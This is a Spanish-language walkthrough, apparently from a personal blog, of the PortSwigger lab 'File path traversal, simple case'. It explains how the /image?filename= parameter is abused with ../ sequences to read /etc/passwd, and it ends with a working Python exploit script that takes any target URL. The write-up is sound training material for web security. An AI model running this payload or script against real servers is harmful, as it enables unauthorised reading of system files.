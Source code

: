 ```yaml
---
title: "01 File path traversal, simple case"
collection: publications
category: portswigger
permalink: publications/Directory Traversal/01_File path traversal, simple case
excerpt: 'Este laboratorio contiene una vulnerabilidad en la visualización de imágenes de productos. La aplicación valida que el nombre de archivo suministrado termine con la extensión de archivo esperada.'
date: 2024-12-07
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'File path traversal, simple case'
---
```


![logo]({{site.url}}/images/Directory Traversal/directory-traversal-01/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Directory Traversal/directory-traversal-01/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, recuperamos el contenido del archivo `/etc/passwd`.

## Analisis

El laboratorio nos indica que la vulnerabilidad se encuentra en la visualización de imágenes de productos, vamos a probar alli.
En el endpoint `/image?filename=48.jpg `

![Conf1]({{site.url}}/images/Directory Traversal/directory-traversal-01/conf1.png)

Probamos ingresando al passwd desde raiz, lo que estamos tratando de ingresa es al directorio. `/var/www/images/etc/passwd` y evidentemente no existe esa ruta. Asi que debemos retroceder con `../`

![Conf2]({{site.url}}/images/Directory Traversal/directory-traversal-01/conf2.png) 

Ai que vamos a devolvernos en la ruta `../../../etc/passwd`, ahora con esa instrucción, nos devolvemos a la raiz e ingresamos a la ruta adecuada `/etc/passwd` que si existe ese archivo.

![Conf3]({{site.url}}/images/Directory Traversal/directory-traversal-01/conf3.png) 

# Codigo Python

```python
import sys
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def directory_traversal_exploit(url):
    image_url = url +'/image?filename=../../../../etc/passwd'
    r = requests.get(image_url, verify=False, proxies=proxies)
    if 'root:x' in r.text:
        print('(+) Exploit successful!')
        print('(+) The following is the content of the /etc/passwd file:')
        print(r.text)
    else:
        print('(-) Exploit failed.')
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    url = sys.argv[1]
    print("(+) Exploiting the directory traversal vulnerability...")
    directory_traversal_exploit(url)

if __name__ == "__main__":
    main()
```